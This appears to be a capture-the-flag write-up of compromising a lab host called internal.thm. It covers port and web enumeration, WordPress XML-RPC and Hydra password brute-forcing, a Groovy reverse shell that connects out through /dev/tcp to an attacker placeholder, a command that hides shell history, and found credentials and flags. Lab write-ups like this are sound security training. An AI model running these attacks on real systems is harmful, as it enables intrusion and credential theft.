

<h1>Internal CTF - Write Up</h1>

Objectives:

1. Locate and note all vulnerabilities found
    - Attempt manual assessments first
    - Metasploit is off limits (msfvenom allowed)
    - Any tool is allowed otherwise
    - Ensure that you modify your hosts file to reflect internal.thm
    - 
2. Discover both flags (locations unknown) as proof of exploitation.
3. Report:
    - vulnerability and exploitation assessment
    - remediation suggestions
    - executive summary

Scope:

1. Black Box Assessment (Minimal Information Provided).
2. Target host will be referenced below as <code>internal.thm</code>.

<h3> Stage: Discovery </h3>

---

1. I am going to do some manual discovery to see what clues about the system and network I can find, but before that let's have nmap run an initial scan to give us a good lay of the land.

    <code>sudo nmap -sC -sS -A internal.thm -oN nmap_init.txt</code>

    This nmap scan will run basic scripts, perform a stealthy syn scan, and probe for additional operating system details by checking well-known ports.
    
    As for manual discovery, visiting internal.thm directly produces us the Apache default configurations page.

    The nmap scan results confirmed the http service on port 80 and showed that port 22 is open and running ssh as well. Beyond that, nmap has not really given us much at this stage. Current details include:

    - 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    - 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

2. It couldn't hurt to run a slightly broader nmap scan (all ports), so I will launch that and also move onto directory and vulnerability enumeration for the web server as well, now that it's existence is confirmed.

    <code>sudo nmap -sC -sS -A internal.thm -p- -oN deepscan.txt </code>

3. ... and for the nikto scan and gobuster scan:

    <code>nikto -h "http://internal.thm/" | tee nikto.txt </code>

    <code>gobuster dir -u "http://internal.thm/" -w /usr/share/wordlists/Seclists/Discovery/Web-Content/common.txt</code>

4. The results from step #2 and #3:

    - The broader nmap scan did not reveal any additional ports open.

    - The nikto scan revealed several promising directories, including: <b>/wordpress, /blog, /phpmyadmin.</b>

    - The gobuster scan confirmed all of those directories as well.

5. After poking around the aforementioned locations, I discovered some additional information:

    - We can check the WordPress version by viewing the source code on /blog/ and searching for "Generator" in the text. The version is: <code>WordPress 5.4.2</code>

    - Attempting to log into /phpmyadmin with default credentials (root / *blank*) reveals there is a password policy: no blank passwords. However, trying to log in with root/root gives us some potentially useful output: <code>mysqli_real_connect(): (HY000/1698): Access denied for user 'root'@'localhost'</code>. This can go somewhere on our queue, but we will leave it be for now.

6. Before diving down any rabbit holes, I want to do a wp-scan to see if we can identify any other potential issues and enumerate any users.

    <code>wpscan --url http://internal.thm/blog --enumerate u</code>

    The first thing that stands out is the following line:

    <code>XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php</code>

    Based on the page's output, XML-RPC is just what it says: a method of sending some XML payload to the page which contains some remote procedure calls for the WordPress application. In the case of internal.thm, we can use a POST request to do so. Initially, the method we are calling will be <code>system.listMethods</code> in order to see what is available for further enumeration or exploitation.

    Taking the original GET request, all that is needed is to change it to POST and append the following XML:
      
        <code>
        \<methodCall> 
        \<methodName>system.listMethods\</methodName> 
        \<params>\</params> 
        \</methodCall>`
        </code>
          
    As expected, this confirms that we can use this vector to make RPCs to the WordPress server, and we now have a list of available methods.

    One of the returned RPCs can be used for password discovery by analyzing the responses received.
      
        <code>
    \<methodCall> 
    \<methodName><code>wp.getUserBlogs</code>\</methodName> 
    \<params> 
    \<param>\<value><code>USERNAME</code>\</value>\</param> 
    \<param>\<value><code>PASSWORD</code>\</value>\</param> 
    \</params> 
    \</methodCall>
    </code>

    The above XML can be used to try different credentials iteratively until a useful response is returned. Rather than using Burp or another utility, I decided to write up a simple python script to run perform the brute forcing. During the wp-scan, the 'admin' user was revealed to exist so all that is needed for the script is a password word list.

      

    After a few thousand iterations of rockyou.txt, the password for user 'admin' is found to be: <code>my2boys</code>.

7. Ah, it's been a while WordPress! A few things come to mind in terms of uploading a reverse shell script and visiting it, or reviewing plugins, but the most simple way I can think to obtain our first shell is to simply overwrite the functions.php file which is accessible in an editor within the dashboard. 

    - Now, alternatively we could overwrite the 404.php file or some less obvious option, but this being a CTF challenge I allowed myself to take the libety (just this once). 
    - Normally, start up a netcat listener on your local machine first (in my case, using a port that is "over 9000" as always).
    - Once the file is overwritten with the (php, of course) reverse shell script, simply visit the page on the front-end of the website. Because I overwrote the functions.php file, I just had to go to the homepage to establish a connection.

8. Excellent! Our very own shell! Before doing anything else, I stabilised my shell using the following command:

    <code>/usr/bin/script -qc /bin/bash /dev/null</code>

    Just a comment on the above: I have found some peace of mind with the above command in terms of reducing your footprint in the remote system. The script utility actually creates a terminal session subshell that is saved to a file. It is a way of capturing all output into a file while running commands in the normal manner. Script also has a parameter for command execution. In my command, I included 'qc' (quiet does not display banners, etc., command execution) and called /bin/bash for our shell, and I directed the output to /dev/null. As a result, the last command that is tracked in history will be the one above. All of our future commands will be accessible within our subshell but wiped after exit. 

    For additional functionality I also run: <code>export TERM=xterm</code>.

9. Manual discovery at this stage didn't reveal anything particularly useful, and we are still in the context of www-data which is quite restrictive. I copied over LinEnum.sh from my machine using a python http server (and wget on the remote session) and ran that as well, but it wasn't as helpful as I had hoped for. I did learn that the user Aubreanna exists on the system. Knowing this, I tried to find any text files that refer to the account:

    <code>find / -name '*.txt' -exec grep -iH 'aubreanna' {} + 2>/dev/null</code>

    The purpose here is to look through all .txt files beginning in the root directory. Then, grep for 'aubreanna' (with case insensitive, and include filename in output flags both set). The {} expand the results of the find command which are passed into the grep command. Then, the standard error output is redirected to /dev/null to clean up the results a little.

    One of the files captured (with some interesting grep output) is /opt/wp-save.txt, and this contains Aubreanna's credentials.

    <code>aubreanna:bubb13guM!@#123</code>

10. SSH using the new credentials works without issues. As is typical in these challenges, the first flag is in the user's home directory in user.txt:

    <code>THM{int3rna1_fl4g_1}</code>

11. Running LinEnum again seemed to mimic the results with the previous access, so nothing terribly useful there. There is another file in the home directory called 'jenkins.txt' which mentions an internal Jenkins service running on a local IP at port 8080. I know Jenkins has a script console that can be exploited so this could be worthwhile.

    Reviewing the LinEnum results confirmed the existence of listener port 8080, but to be safe I also checked with <code>lsof -i -P -n | grep LISTEN</code>. It checks out, and it appears to be running in a docker container as well.

    To access it locally in my browser, I need to set up port forwarding across an ssh tunnel to Aubreanna:

    <code>ssh -L 8080:localhost:8080 aubreanna@internal.thm</code>

    the -L option for SSH let's us specify a local port or socket whose connections are forwarded to the remote host and port. In this case, localport:remotehost:remoteport will forward aubreanna's localhost:8080 to my localhost:8080.

    After connecting, visiting localhost:8080 in the browser produces a Jenkins login page.

12. The default credentials (admin:password) are no good here unfortunately. Inspecting the response does provide some interesting details, including the Jenkins version and some Server information:

    - X-Hudson: 1.395
    - X-Jenkins: 2.250
    - X-Jenkins-Session: 2dd406a0
    - X-Hudson-CLI-Port: 50000
    - X-Jenkins-CLI-Port: 50000
    - X-Jenkins-CLI2-Port: 50000
    - X-Frame-Options: sameorigin
    - Server: Jetty(9.4.30.v20200611

13. In contrast to the earlier password cracking with WordPress, I will try at Jenkins with Hydra. The following command will do. The payload is from inspecting the source and POST request during login.

    <code>hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8081 localhost http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -f -o hydra_jenkins.txt
    </code>

    Again, to explain the above, using a single username (-l admin) and the rockyou.txt password list (-P), Hydra will connect to localhost at port 8080 (-s). It will perform a POST request iteratively on the form (http-post-form) and output the results to the text file. The -f option will terminate the attempts after a valid pair of credentials are found. The portion before -f specifies some request and response details, including the login page, the request payload, and the invalid attempt identifier string. Each of these is separated by a colon.

    Success! We get 'spongebob' as the password for the admin user.

14. Using the script console within Jenkins, we can create a reverse shell to connect to by running the following Java:

    <code>r = Runtime.getRuntime() 
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/LOCAL_IP/LOCAL_PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) 
    p.waitFor()</code>

    .. and of course setting up a netcat listener on the same port on the attack machine.

15. A new shell appears! This time, in a docker container serving Jenkins. Checking for any text files of note, running the command <code>find / -name *.txt</code> produces /opt/note.txt as the very first result.

    Golden! The root credentials are stored inside:

    <code>root:tr0ub13guM!@#123</code>

16. SSH works well with these. We have obtained the last flag:

    THM{d0ck3r_d3str0y3r}

    Docker... destroyed!
